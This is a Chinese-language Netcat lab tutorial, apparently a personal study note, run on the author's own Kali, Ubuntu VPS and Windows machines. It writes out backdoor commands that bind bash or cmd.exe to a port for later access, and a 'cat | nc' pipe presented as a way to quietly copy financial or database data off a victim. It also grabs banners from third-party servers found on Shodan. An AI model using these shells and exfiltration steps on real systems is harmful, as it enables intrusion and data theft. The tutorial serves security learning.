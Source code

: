 ## 实验1 - 使用Netcat在本地Kali主机上监听公网Ubuntu的连接
为了展示 netcat 将会使用两台主机。
1. Kali linux 虚拟机
2. Ubuntu vps 

Ubuntu vps:
![title](https://leanote.com/api/file/getImage?fileId=5d9eccb2ab64415a49000ad1)

**在公网 UBUNTU 上：**
![title](https://leanote.com/api/file/getImage?fileId=5d9eccfeab64415c47000a40)
这行命令表示监听本机的8888端口。

**在 Kali 上：**
![title](https://leanote.com/api/file/getImage?fileId=5d9ecd23ab64415c47000a43)
这行命令表示与公网 ip 为 144.168.*.70的主机进行通信。

在其他基于Debian的操作系统上：`apt-get netcat`

然后尝试在两边的命令行里面输入命令，结果发现另一个命令行都能看到输出：

Ubuntu:
![title](https://leanote.com/api/file/getImage?fileId=5d9ecd5cab64415a49000ad5)

Kali:
![title](https://leanote.com/api/file/getImage?fileId=5d9ecd6cab64415a49000ad7)

上面就是使用Netcat在远程Ubuntu系统上创建了一个侦听器。然后在本地Kali系统上的端口8888（可以是任何端口）上打开了Netcat侦听器。

## 实验2 - 使用Netcat进行Banner抓取以进行OS指纹识别
在攻击任何系统之前，我们需要尽可能多地了解目标。因此，一旦我们与Web服务器建立了TCP连接，就可以使用Netcat抓住已提供新连接的Web服务器的标识，以识别目标正在运行的Web服务软件。

可以使用`HEAD / HTTP/1.0`命令将Banner抓取到Web服务器。请注意并完全按照斜杠和空格进行复制。或者，如果这不起作用，则可以改用 `HEAD / HTTP/1.1` 。

实验：
先在shodan上面找一个nginx的主机：
![title](https://leanote.com/api/file/getImage?fileId=5d9ecd94ab64415c47000a46)

然后抓取banner。在我的kali输入:
![title](https://leanote.com/api/file/getImage?fileId=5d9ecdadab64415a49000ad9)
可以看到抓回的信息显示web服务器是nginx。记得多按几次回车。

再在shodan上面找一个apache的主机：
![title](https://leanote.com/api/file/getImage?fileId=5d9ecdd7ab64415c47000a48)

![title](https://leanote.com/api/file/getImage?fileId=5d9ece01ab64415a49000adb)

总之都可以找出它们正在运行的服务器，获取服务器信息。


## 实验3 - reverse shell
在公网 Ubuntu 上面输入下列命令，结果报错了：
![title](https://leanote.com/api/file/getImage?fileId=5d9ece26ab64415c47000a49)

修复： https://www.fengdingbo.com/netcat-invalid-option-e.html
我自己一不小心把nc删了，重新`apt-get install netcat`了一遍就好了。
![title](https://leanote.com/api/file/getImage?fileId=5d9ece49ab64415c47000a4a)

在kali上面开始监听此Ubuntu vps的6996端口：
![title](https://leanote.com/api/file/getImage?fileId=5d9ece6aab64415a49000adc)

在kali的命令行里面尝试输入命令：
![title](https://leanote.com/api/file/getImage?fileId=5d9ece83ab64415c47000a4b)

就会发现这其实是Ubuntu的bash，所以我们在kali这里获取了一个Ubuntu的反弹shell。

Netcat Reverse shell 原理：
![title](https://leanote.com/api/file/getImage?fileId=5d9eceabab64415a49000ade)

Normal Shell VS Reverse Shell：
![title](https://leanote.com/api/file/getImage?fileId=5d9ececcab64415c47000a4c)



## 实验4 - Windows主机环境下
windows环境下netcat的安装及使用：https://blog.csdn.net/qq_37585545/article/details/82250984

Windows 命令行：
![title](https://leanote.com/api/file/getImage?fileId=5d9ecf0fab64415c47000a4e)

Windows 机器的 IPv4 地址：
![title](https://leanote.com/api/file/getImage?fileId=5d9ecf33ab64415c47000a4f)

- 创建 listener：<br/>
![title](https://leanote.com/api/file/getImage?fileId=5d9ecf5dab64415a49000ae4)

成功建立监听。可以交流。

`注意：`请注意，在Windows系统上，我们可以使用大写L运行相同的命令，以创建即使系统重新启动也将打开的持久侦听器！！！

- 建立后门

现在，让我们在目标系统上创建一个后门，以便我们可以随时返回该后门。根据我们攻击的是Linux还是Windows系统，该命令会略有不同。前面已经说过linux的命令为：
```nc -l -p 6996 -e /bin/bash```

Windows的命令为：
```nc -l -p 6996 -e cmd.exe```

**实验:**
在模拟受害主机Windows系统的命令行中：
![title](https://leanote.com/api/file/getImage?fileId=5d9ecf88ab64415a49000ae6)

在模拟攻击机器Kali的命令行中：
![title](https://leanote.com/api/file/getImage?fileId=5d9ecfa8ab64415a49000aef)

很明显我们获取了 Windows 主机的反弹 shell。Windows 命令提示符已通过 Netcat 连接直接通过管道传递到 Kali 攻击系统。我们拥有了那个shell!

总结来说，这行命令将在系统上打开一个 listener，该 listener 会将命令行 bash shell 程序或 Linux bash shell 程序 “pipe” 到连接系统。


## 实验5 - 通过NC提取（复制）受害系统上的文件

Netcat还可以用于从目标中提取文件和数据。假设我们需要目标系统上的数据，例如财务数据或数据库中存储的数据。我们可以使用隐身连接将数据缓慢复制到攻击系统中。

### Linux 环境
因为我们的Ubuntu在公网上，Kali 虚拟机在内网里，无法出网。所以此实验的场景为：把公网Ubuntu上面的try.txt文件通过netcat传输到本地的Kali虚拟机上。

首先在Ubuntu上创建一个try.txt:
![title](https://leanote.com/api/file/getImage?fileId=5d9ecfdfab64415c47000a50)

然后看看在我们的Kali本地机器上是没有这个try.txt的：
![title](https://leanote.com/api/file/getImage?fileId=5d9ecffcab64415a49000af1)

然后在公网Ubuntu机器上开启一个nc传输：
`cat '/root/try.txt' | nc -l -p 9999`
这句命令的意思是：查看 try.txt 的内容，然后通过管道把这个结果写入本地9999端口通过nc传输。
![title](https://leanote.com/api/file/getImage?fileId=5d9ed01cab64415c47000a51)

然后在本地kali机器上开始监听此公网Ubuntu的9999端口：
`nc 144.168.*.70 9999 > try.txt`
这句命令的意思是，监听公网 IP 为 144.168.*.70 的主机（即此Ubuntu主机）的9999端口，把监听到的结果写入  `try.txt`。
![title](https://leanote.com/api/file/getImage?fileId=5d9ed03cab64415c47000a52)

再在Kali终端上新开一个terminal查看接收到的文件：
![title](https://leanote.com/api/file/getImage?fileId=5d9ed05cab64415c47000a53)

发现已经接收到了。

### Windows 环境
Windows:
![title](https://leanote.com/api/file/getImage?fileId=5d9ed08bab64415c47000a54)

Kali：
![title](https://leanote.com/api/file/getImage?fileId=5d9ed0adab64415c47000a55)

![title](https://leanote.com/api/file/getImage?fileId=5d9ed0baab64415c47000a56)

`注意：`windows 里面查看文件命令为 `type` 而不是 `cat`，也可以通过这种方法来传递其他格式的文件比如  xls、csv 等等。


## 实验6 - 内网端口转发与公网VPS通信

如果在内网里面的机器想要通过netcat进行通信，让处于公网里的VPS进行监听，就必须进行内网端口转发/内网穿透。

但是一定要注意一个误区就是：端口转发≠内网穿透！

此部分因为方法众多，故单独成文。

-----------

参考链接：
[1] [Use Netcat to Spawn Reverse Shells & Connect to Other Computers [Tutorial]](https://www.youtube.com/watch?v=VF4In6rIPGc)，Youtube，2018年12月7日
[2] [How to Use Netcat, the Swiss Army Knife of Hacking Tools](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/)，NULL BYTE，2018年12月8日

